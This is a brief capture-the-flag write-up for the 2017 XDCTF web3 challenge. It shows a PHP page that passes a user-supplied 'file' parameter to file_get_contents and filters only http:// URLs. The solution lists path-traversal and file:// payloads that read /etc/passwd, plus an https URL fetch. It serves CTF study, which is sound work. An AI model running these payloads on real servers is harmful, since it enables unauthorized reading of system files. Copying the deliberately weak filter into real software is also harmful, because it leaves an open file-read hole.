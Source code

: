 # Challenge
```php 
<?php
/*//设置open_basedir
ini_set("open_basedir", "/home/shawn/www/index/");
 */

if (isset($_GET['file'])) {
	$file = trim($_GET['file']);
} else {
	$file = "main.html";
}

// disallow ip
if (preg_match('/^(http:\/\/)+([^\/]+)/i', $file, $domain)) {
	$domain = $domain[2];
	if (stripos($domain, ".") !== false) {
		die("Hacker");
	}
}

if( @file_get_contents($file)!=''){
echo file_get_contents($file);

}else{

$str=<<<EOF
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.13.5</center>
</body>
</html>
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
<!-- a padding to disable MSIE and Chrome friendly error page -->
EOF;
echo $str;
}
```

# Solution

```
?file=../../../../../../../etc/passwd
?file=file:///etc/passwd
?file=https://www.baidu.com
```

只过滤了一个http协议，可以利用其他协议来访问本地文件或一些站点

# Refference 

+ [2017 XDCTF web3](https://mengsec.com/2017/10/04/XDCTF-%E5%88%9D%E8%B5%9B%E9%83%A8%E5%88%86%E9%A2%98%E7%9B%AEWriteUp/#Web)

